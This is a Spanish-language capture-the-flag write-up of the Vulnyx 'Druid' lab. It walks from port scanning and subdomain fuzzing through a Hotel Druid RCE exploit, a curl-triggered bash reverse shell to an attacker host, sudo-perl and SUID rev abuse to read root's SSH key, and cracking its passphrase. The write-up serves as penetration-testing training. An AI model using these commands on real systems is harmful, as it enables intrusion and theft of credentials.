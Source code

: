 ```yaml
---
title: Vulnyx - Druid
author: estx
date: 2024-04-29 16:41:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'Information Leakage', 'Local Port Forwarding']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Druid/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **Information Leakage, Local Port Forwarding**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.67	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.67 -oG ports

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p22,80 -sCV 192.168.100.67 -oN versions

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Hotel
```


c. Para conocer las tecnologías que se emplean en la página web, usaremos `whatweb`

```bash
❯ whatweb http://192.168.100.67/

http://192.168.100.67/ [200 OK] Apache[2.4.56], Bootstrap, Country[RESERVED][ZZ], Email[info@hotel.nyx], HTML5, HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[192.168.100.67], JQuery[3.3.1], Script, Title[Hotel], X-UA-Compatible[IE=edge]
```

* Lo más relevante que vemos es un dominio **`hotel.nyx`**, el cual añadiremos al archivo `/etc/hosts` ya que se está empleando **virtual hosting**

> **Virtual Hosting:** Se usa cuando un servidor web puedes 'hostear' múltiples dominios, de tal manera, que dependiendo de cual visites muestra cierto contenido.
{: .prompt-info }


```bash
❯ cat /etc/hosts
...
192.168.100.67 hotel.nyx
```

d. Ahora, realizaremos un **fuzzing de subdominios** 

```bash
❯ wfuzz -c -t 60 --hc=404 --hh=33065 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.hotel.nyx" http://hotel.nyx

...
000007108:   200        17 L     31 W       398 Ch      "reservations" 
```

* Este subdominio también lo añadimos al `/etc/hosts`

```bash
❯ cat /etc/hosts
...
192.168.100.67 hotel.nyx reservations.hotel.nyx
```

* Al visitar este subdominio veremos un sistema de administración y al ir configuración obtendremos la versión de este sistema

![Configuration](/assets/images/Vulnyx/Easy/Druid/01-config.png)

* Con esto buscaremos un exploit para esta versión de **Hotel Druid**

```bash
❯ searchsploit hotel druid 3.0.3
-----------------------------------------------------------------------------
Exploit Title                                        |  Path
-----------------------------------------------------------------------------
Hotel Druid 3.0.3 - Remote Code Execution (RCE)      |  php/webapps/50754.py
```

e. Inspeccionamos el script y lo ejecutamos 

```bash
❯ python rce_hoteldruid.py -t http://reservations.hotel.nyx/ --noauth
------------------------------------------------------------------------------------
❯ curl -s -X GET "http://reservations.hotel.nyx/dati/selectappartamenti.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* Nos entablamos una reverse shell

```bash
❯ curl -s -X GET "http://reservations.hotel.nyx/dati/selectappartamenti.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/[IP Atacante]/4444%200>%261'"
------------------------------------------------------------------------------------
❯ nc -lvnp 4444
www-data@druid:/var/www/hoteldruid/dati$
```


### Escalada de Privilegios 💹

a. Ahora realizamos un tratamiento de la TTY en la reverse shell

```bash
www-data@druid:/var/www/hoteldruid/dati$ script /dev/null -c bash
www-data@druid:/var/www/hoteldruid/dati$ ^Z
[1]  + 8798 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 8798 continued  nc -lvnp 4444
                                reset xterm

www-data@druid:/var/www/hoteldruid/dati$ export TERM=xterm-256color
www-data@druid:/var/www/hoteldruid/dati$ source /etc/skel/.bashrc
```

b. Revisamos los permisos a nivel de sudoers de este usuario

```bash
www-data@druid:/var/www/hoteldruid/dati$ sudo -l

User www-data may run the following commands on druid:
    (sun) NOPASSWD: /usr/bin/perl
```

* Ejecutamos un comando en **perl** para convertirnos en `sun`

```bash
www-data@druid:/var/www/hoteldruid/dati$ sudo -u sun /usr/bin/perl -e 'exec "/bin/bash";'
sun@druid:/var/www/hoteldruid/dati$ 
```

c. Vemos los binarios con permisos **SUID** 

```bash
sun@druid:/var/www/hoteldruid/dati$ find / -perm -4000 2>/dev/null
<SNIP>
/usr/bin/super
<SNIP>
```

* Este binario es inusual, y si lo investigamos llegamos a ver que nos permite ejecutar el comando `rev`

```bash
sun@druid:/var/www/hoteldruid/dati$ /usr/bin/super         
Command Name    Comments
or Pattern              
------------    --------
secret          
sun@druid:/var/www/hoteldruid/dati$ /usr/bin/super secret

sun@druid:/var/www/hoteldruid/dati$ /usr/bin/super secret --help
Usage: secret [options] [file ...]

Reverse lines characterwise.

Options:
 -h, --help     display this help
 -V, --version  display version

For more details see rev(1).
```

d. Con `rev` podemos llegar a leer archivos del sistema [GTFOBins](https://gtfobins.github.io/gtfobins/rev/#suid)


```bash
sun@druid:/var/www/hoteldruid/dati$ /usr/bin/super secret /root/.ssh/id_rsa | rev
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,7A064479BF5ABFB4

9LDgmvZhH9QGC3WjD688C/tnc8BvpehK7WlukWyvGDeWs/TyXD5R8AsiRzAi/pmB
altCR/yc+FWmkJKDiVxqycyqf7fYZkrHOwAoHve8uhYVq1SAE31mVrPqV+SahyRZ
<SNIP>
ehzp89ccR6fUz3S9iwcmcgnAIPnXmXpwqhLBqFy8O8Z9/7vcHyk44A==
-----END RSA PRIVATE KEY-----
```

* Esta clave **id_rsa** está encriptada, usaremos ssh2john para extraer el hash y tratar de crackearlo con john

```bash
❯ ssh2john id_rsa > hash-ssh
❯ john hash-ssh -w=/usr/share/wordlists/rockyou.txt

id_rsa:super1
```

e. Por último, le damos el permiso **600** a la id_rsa y nos podemos loguear como root

```bash
❯ ssh root@192.168.100.67 -i id_rsa
Enter passphrase for key 'id_rsa': 
root@druid:~# cat /root/root.txt 
1261b7a8c3b99b0daded8caca8b4023d
```